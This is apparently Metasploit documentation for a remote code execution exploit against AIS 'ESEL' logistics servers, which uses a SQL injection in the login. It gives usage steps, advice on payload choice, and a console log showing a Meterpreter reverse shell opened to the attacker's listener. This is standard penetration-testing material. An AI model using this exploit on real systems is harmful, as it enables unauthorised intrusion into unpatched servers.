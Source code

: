 ## Description

    This module will execute an arbitrary payload on an "ESEL" server used by the
    AIS logistic software. The server typically listens on port 5099 without TLS.
    There could also be server listening on 5100 with TLS but the port 5099 is
    usually always open.
    The login process is vulnerable to an SQL Injection. Usually a MSSQL Server
    with the sa user is in place.

    This module was verified on version 67 but it should also run on lower versions.
    An fixed version was created by AIS in September 2017. However most systems
    have not been updated.`

    In regard to the payload, unless there is a closed port in the web server,
    you dont want to use any bind payload. You want a "reverse" payload,
    probably to your port 80 or to any other outbound port allowed on the firewall.

    Currently, one delivery method is supported

    This method takes advantage of the Command Stager subsystem. This allows using
    various techniques, such as using a TFTP server, to send the executable. By default
    the Command Stager uses 'wcsript.exe' to generate the executable on the target.

    NOTE: This module will leave a payload executable on the target system when the
    attack is finished.

## Vulnerable Application

  The application is not publicily available. It was tested on Esel version 67 but should also work an versions below.

## Verification Steps

  1. Start `msfconsole`
  2. `use exploit/windows/misc/ais_esel_server_rce`
  3. `set RHOSTS <IP>`
  4. `check`
  5. **Verify** "Server is vulnerable"
  6. `run`
  7. **Verify** Session opened

## Scenarios

    msf > use exploit/windows/misc/ais_esel_server_rce
    msf exploit(windows/misc/ais_esel_server_rce) > set rhosts 10.66.75.212
    rhosts => 10.66.75.212
          msf exploit(windows/misc/ais_esel_server_rce) > check
          [+] 10.66.75.212:5099 - The target is vulnerable.
    msf exploit(windows/misc/ais_esel_server_rce) > run

    [*] Started reverse TCP handler on 10.66.75.208:4444
    [+] 10.66.75.212:5099 - Correct response received => Data send successfully
    [+] 10.66.75.212:5099 - Correct response received => Data send successfully
    [*] 10.66.75.212:5099 - Command Stager progress -   1.47% done (1499/102292 bytes)
    [+] 10.66.75.212:5099 - Correct response received => Data send successfully
    [*] 10.66.75.212:5099 - Command Stager progress -   2.93% done (2998/102292 bytes)
    [+] 10.66.75.212:5099 - Correct response received => Data send successfully
          ...
    [*] 10.66.75.212:5099 - Command Stager progress -  99.55% done (101827/102292 bytes)
    [+] 10.66.75.212:5099 - Correct response received => Data send successfully
    [*] Sending stage (179779 bytes) to 10.66.75.212
    [*] 10.66.75.212:5099 - Command Stager progress - 100.00% done (102292/102292 bytes)
    [!] 10.66.75.212:5099 - The payload is left on the client in the %TEMP% Folder of the corresponding user.
    [*] 10.66.75.212:5099 - Stager should now be executed. Waiting for 20 seconds..
    [*] Meterpreter session 1 opened (10.66.75.208:4444 -> 10.66.75.212:57107) at 2019-03-27 11:04:29 +0100

    meterpreter > getuid
    Server username: NT Service\MSSQL$AIS

